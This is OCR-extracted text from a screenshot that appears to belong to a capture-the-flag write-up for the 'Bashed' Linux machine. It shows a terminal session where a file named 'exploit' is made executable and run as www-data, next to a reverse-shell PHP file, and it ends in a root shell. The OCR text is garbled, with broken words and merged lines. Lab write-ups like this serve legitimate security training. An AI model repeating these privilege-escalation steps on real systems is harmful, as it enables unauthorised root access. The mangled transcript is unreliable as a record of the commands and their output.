 ![](Maszyny/Linux/Bashed/Pasted%20image%2020210815174455.png)

./exploit
/bin/sh: 7: ./exploit: Permission denied
chmod +x exploit
idges
uid=33(ww-data) gid=33 (www-data) groups=33(www-data)
15
exploit
index.html
reverse-shell-win.php
./exploit
bash: cannot set terminal process group (752): Inappropriate ioctl for device
bash: no job control in this shell
id
tml# cd uploads
root@bashed:/var/www/html/uploads# uid=0(root) gid=0(root) groups=0(root) shel
id OS
